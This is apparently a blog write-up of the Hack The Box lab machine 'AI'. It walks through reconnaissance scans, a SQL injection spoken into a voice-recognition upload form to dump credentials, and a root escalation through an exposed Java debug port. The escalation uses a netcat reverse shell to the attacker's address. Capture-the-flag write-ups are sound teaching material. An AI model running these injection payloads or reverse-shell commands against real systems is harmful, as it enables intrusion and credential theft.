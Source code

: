 ```yaml
---
title: "AI - HackTheBox"
date: "2020-01-25"
tags: []
---
```

AI is a machine from Hack The Box with an exploitation method that I've never
seen before.

Let's start with the usual nmap scan:
```
$ nmap -A -T4 10.10.10.163
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-25 14:57 EST
Nmap scan report for 10.10.10.163
Host is up (0.059s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 6d:16:f4:32:eb:46:ca:37:04:d2:a5:aa:74:ed:ab:fc (RSA)
|   256 78:29:78:d9:f5:43:d1:cf:a0:03:55:b1:da:9e:51:b6 (ECDSA)
|_  256 85:2e:7d:66:30:a6:6e:30:04:82:c1:ae:ba:a4:99:bd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Hello AI!
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

While visiting the website, the only thing that might be interesting is in
[ai.php](http://10.10.10.163/ai.php):
![](/images/hackthebox/ai/upload.png)

After uploading a random wav file found on the internet, we get this output:
![](/images/hackthebox/ai/randomfile.png)

It looks like there's an online service that does voice recognition and uses
its output to perform a query, and given that in our text there are single
quotes (for example in the verb *wouldn't*), a SQL error has been triggered.

Also, running a web discovery tool allows us to find
[intelligence.php](http://10.10.10.163/intelligence.php):
```
$ gobuster dir -q -r -w lists/raft-small-words-lowercase.txt -x php,html -s 200 -u http://10.10.10.163
/index.php (Status: 200)
/contact.php (Status: 200)
/db.php (Status: 200)
/about.php (Status: 200)
/. (Status: 200)
/ai.php (Status: 200)
/intelligence.php (Status: 200)
```

Here is the page:
![](/images/hackthebox/ai/instructions.png)

We can try to exploit this by recording an audio ourself or using text to speech
services. I will use [text2speech](https://www.text2speech.org/) with these
options:
![](/images/hackthebox/ai/text2speech.png)

Following the guide and after many, many attempts, I've come up with the
following payload:
```
open single quote space union select space username from users comment database
```

And the result is:
![](/images/hackthebox/ai/username.png)

And this payload:
```
open single quote space union select password from users comment database
```

gives us the password:
![](/images/hackthebox/ai/password.png)

Let's try to connect with SSH:
```
alexa@AI:~$ wc -c user.txt
33 user.txt
```
And there's the user flag!

## Privilege escalation

Running the usual recon commands, we can see with `ps aux` an interesting
process running as root:
```
root     128367 21.1  4.7 3108796 95460 ?       Sl   16:06   0:03 /usr/bin/java
-Djava.util.logging.config.file=/opt/apache-tomcat-9.0.27/conf/logging.properties
-Djava.util.logging.manager=org.apache.juli.ClassLoaderLogManager
-Djdk.tls.ephemeralDHKeySize=2048
-Djava.protocol.handler.pkgs=org.apache.catalina.webresources
-Dorg.apache.catalina.security.SecurityListener.UMASK=0027
-agentlib:jdwp=transport=dt_socket,address=localhost:8000,server=y,suspend=n
-Dignore.endorsed.dirs= -classpath
/opt/apache-tomcat-9.0.27/bin/bootstrap.jar:/opt/apache-tomcat-9.0.27/bin/tomcat-juli.jar
-Dcatalina.base=/opt/apache-tomcat-9.0.27
-Dcatalina.home=/opt/apache-tomcat-9.0.27
-Djava.io.tmpdir=/opt/apache-tomcat-9.0.27/temp
org.apache.catalina.startup.Bootstrap start
```

A quick google search gives us
[this](https://github.com/IOActive/jdwp-shellifier) exploit that allows
arbitrary code execution. After downloading it on our machine, we have to
forward the port 8000 on the remote machine to our machine, because the service
is running on localhost so we cannot reach it from outside. Let's do so with
`ssh -L 8000:localhost:8000 alexa@10.10.10.163`. Let's start a netcat listener
and run the exploit:
```
$ ./jdwp-shellifier.py -t localhost -p 8000 --cmd 'busybox nc 10.10.14.81 1337 -e /bin/bash'
[+] Targeting 'localhost:8000'
[+] Reading settings for 'OpenJDK 64-Bit Server VM - 11.0.4'
[+] Found Runtime class: id=b8f
[+] Found Runtime.getRuntime(): id=7ff73403e880
[+] Created break event id=2
[+] Waiting for an event on 'java.net.ServerSocket.accept'
[+] Received matching event from thread 0x1
[+] Selected payload 'busybox nc 10.10.14.81 1337 -e /bin/bash'
[+] Command string object created id:c34
[+] Runtime.getRuntime() returned context id:0xc35
[+] found Runtime.exec(): id=7ff73403e8b8
[+] Runtime.exec() successful, retId=c36
[!] Command successfully executed
```


And we got a shell as root! Let's get the flag:
```
$ nc -lnvp 1337
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 10.10.10.163.
Ncat: Connection from 10.10.10.163:45658.
whoami
root
wc -c /root/root.txt
33 /root/root.txt
```

Quick and easy, thanks for reading!
